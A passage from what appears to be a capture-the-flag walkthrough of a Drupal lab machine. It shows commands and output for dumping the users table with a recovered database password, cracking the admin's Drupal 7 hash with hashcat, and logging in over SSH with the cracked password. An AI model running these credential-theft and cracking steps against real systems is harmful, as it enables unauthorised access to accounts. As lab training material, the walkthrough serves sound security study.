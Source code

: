 Everything else looks default.

#### Database

Because my shell is a not in a PTY, I’ll have to run DB commands from the command line. Drupal creates a bunch of tables:

```

bash-4.2$ mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
Tables_in_drupal
actions
authmap
batch
block
...[snip]...
users
users_roles
variable
watchdog

```

I’m immediately interested in `users`.

```

bash-4.2$ mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London              0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}

```

There’s a hash for brucetherealadmin.

### Hashcat

That hash matches the format for Drupal 7 on the [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes). Hashcat will crack it pretty quickly with `hashcat -m 7900 brucetherealadmin-hash /usr/share/wordlists/rockyou.txt` to find the password “booboo”.

### SSH

This password works for SSH access:

```

oxdf@parrot$ sshpass -p booboo ssh brucetherealadmin@10.10.10.233
Warning: Permanently added '10.10.10.233' (ECDSA) to the list of known hosts.
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.7
[brucetherealadmin@armageddon ~]$ 

```

